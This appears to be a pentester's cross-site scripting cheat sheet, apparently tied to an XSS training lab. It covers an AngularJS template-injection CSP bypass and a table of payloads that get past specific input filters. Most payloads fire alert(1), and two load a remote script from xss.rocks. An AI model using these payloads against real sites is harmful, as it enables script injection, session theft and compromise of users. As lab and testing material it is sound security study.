 ﻿# XSS and Stuff
 
 ## Using Angular.js to bypass CSP
 If you can find a place in a web page where e.g.  `{{7*7}}` gets displayed on client-side as '49' (if its returned as 49, then its server-side template injection!), you can try to bypass CSP with:   
 `{{$on.constructor('alert(1)')()}}`   
 More here: https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
 
 ## XSS Bypasses

|   Filter   | Bypass    |
| --- | --- |
| Nothing | &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt;, no quotes | >&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt; with quotes | ">&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection within a &lt;script&gt; block | `asdf";alert(1);<!--` |
| Injection within a &lt;textarea&gt; | &lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt; |
| DOM-XSS, no filtering | &lt;img src=x onerror=alert(1)&gt; |
| Client-side filtering of some values | [Attack in URL directly or manipulate request via Burp: https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert(1)%3C/script%3E](https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert%281%29%3C/script%3E) |
| "&lt;" and "&gt;" are filtered | test" onmouseover="alert(1) |
| "script" is filtered, but only once | &lt;img src=x onerror=alert(1)&gt; OR &lt;scriscriptpt&gt;alert(1)&lt;/scriscriptpt&gt;  |
| most non-HTML5 onXYZ handlers are blocked | Any valid HTML5 onevent handler: &lt;input type=text oncontextmenu=alert(1)&gt;|
| all "onxyz" event handlers are filtered, "script" is filtered, but case sensitive | &lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt; |
| "alert" is filtered | [&lt;script src=https://xss.rocks/xss.js&gt;](https://xss.rocks/xss.js) |
| "alert", "http://" and "https://" are filtered | &lt;script src=//xss.rocks/xss.js&gt; |
| Injection in a &lt;script&gt; block, but double quotes are escaped | Escape the escape character: `asdf\\";alert(1);<!--` |
| Injection in a &lt;script&gt; block, but "&lt;", "&gt;" and "alert" are filtered | ";\\u{61}lert(1);var i=" |
| Parentheses are filtered | &lt;script&gt;onerror=alert;throw 1&lt;/script&gt; |
| Injection inside "src" attribute of &lt;script&gt; tag, but all protocols "http://", "https://" and "//" are filtered. | data:text/javascript,alert(1) |
| all tags (e.g. &lt;.*&gt;) are filtered | Parameter pollution: [https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert(1)%3C/script%20&inject=%3E](https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert%281%29%3C/script%20&inject=%3E) |
| "script" and "onXYZ" event handlers are filtered, but knockout JS is available. | Knockout JS script gadget:  &lt;h2&gt;Hello, &lt;span data-bind="text: alert(1)"&gt;&lt;/span&gt;!&lt;/h2&gt; |
| Injection via file upload, nothing filtered | Upload HTML document (e.g. test.html): &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection via file upload, but .html extension and other important ones are filtered. | Upload HTML document, but with .htm extension:  &lt;script&gt;alert(1)&lt;/script&gt; |
| MIMETypes are filtered, only images are allowed. | Use an SVG (below is a fancy one): <br>`<?xml version="1.0" standalone="no"?>`<br>`<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">`<br>`<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">`<br>`<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />`<br>`<script type="text/javascript">`<br>`alert("SVG XSS");`<br>`</script>`<br>`</svg>` |
| Injection inside eval, but ">", "<", "=", "alert", "script", "src" and protocols are all filtered. | String.fromCharCode(97,108,101,114,116,40,49,41) |
| csp blocks most things, but allows angularJS to be loaded | <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script\> &lt;input type=text ng-app id=p ng-focus=$event.view.alert(1)&gt; |
